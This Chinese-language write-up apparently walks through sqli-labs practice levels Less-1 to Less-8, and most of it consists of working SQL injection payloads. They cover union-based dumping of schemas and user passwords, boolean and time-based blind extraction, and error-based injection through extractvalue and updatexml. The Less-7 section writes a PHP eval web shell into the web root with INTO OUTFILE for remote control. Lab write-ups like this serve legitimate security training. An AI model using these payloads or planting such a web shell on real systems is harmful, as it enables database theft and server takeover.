







首先熟悉基本的sql注入流程
[见](SQL.emind)

# less-1
传入参数id,单引号闭合
?id=-1' union select 1,2,3%23


```
id=-1' union select 1,user(),group_concat(schema_name) from information_schema.schemata%23
```

```
-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

```
-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name=users %23
```

```
id=-1' union select 1,database(),group_concat(password) from security.users %23
```


# less-2
id=1 and 1=2测试为数字型注入
?id=1 order by 3%23列数为3
.......
```
-1 union select 1,database(),group_concat(password) from security.users %23
```


# less-3
测试1'

原句应该为select * from .. where ($id)
报错处发现),那么需要闭合)
id=-1') order by 4 %23
```
-1') union select 1,database(),group_concat(password) from security.users%23
```


# less-4
测试1'
没有报错
1"报错

试试1") %23闭合
?id=1") order by 4 %23 成功

```
-1") union select 1,database(),group_concat(password) from security.users%23
```


# less-5

发现只会回显这个,需要盲注了时间,bool都可以
先用bool盲注
先查看一下版本号
1' and** left**(version,1)=5 %23

说明第一位是正确的

看一下数据库长度
1' and length(database())=8 %23
长度为8时正确


猜数据库第一位
1' and left(database(),1)>'a' %23
数据库为security()

若是left被禁用还可以用 **substr()和ascii()**尝试,下面用来查表
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23
查第二个字母改变substr(....,2,1)就可以了
若是逗号被过滤,可以使用limit 1 offset 0和substr from 1 for 1

最终查到user表,下面再用正则regexp获取列
1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp % 27^us[a-z]' limit 0,1)--+
上述为查找user表下是否有us**的列

这里也可以用报错注入
```
1' and extractvalue(1,concat(0x7e,(select password from security.users limit 0,1),0x7e))%23
```


# less-6
id=1'
没有任何报错信息
id=1"报错,用"闭合
直接用报错注入
```
1" and updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1)%23
```


# less-7

查看源码闭合方式为'))

id=1'))%23

outfile想到写文件
my.ini添加权限配置
```
secure_file_priv="/"
```
写文件前提:
1.知道路径
2.有写权限
3.能够使用union查询
文件路径:D:\phpstudy_pro\WWW\sqli
写入一句话木马
```
1')) union select 1,2,'<?php eval($_POST["x"]);?>' into outfile "D:/phpstudy_pro/WWW/sqli/Less-7/test.php" %23
```
蚁剑连接


# less-8
id=1
正常显示

id=1',信息消失
id=1'%23闭合,显示正常
可以尝试bool和时间盲注
源码:

用时间盲注:
```
1' and if(1=1,sleep(5),1)%23
```
发现网页加载时间变长,说明可行
首先判断当前数据库长度(数据库为security)
```
1' and if(length(database())=8,sleep(3),1)%23
```
爆库
```
1' and if(substr(database(),1,1)='s',sleep(3),1)%23
```
这里可以结合brupsuit的inruder模块,注意线程需调低
```
1' and if(substr(database(),1,1)='$s%',sleep(3),1)%23
```
报表
```
1' and if(substr((select table_name from information_schema.tables where table_schema=database() limit 2,1),1,1)='u',sleep(3),1)%23
```
爆字段
```
1' and if(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 1,1),1,1)='u',sleep(3),1)%23
```
最好限制范围,以免查询到其他库中的表
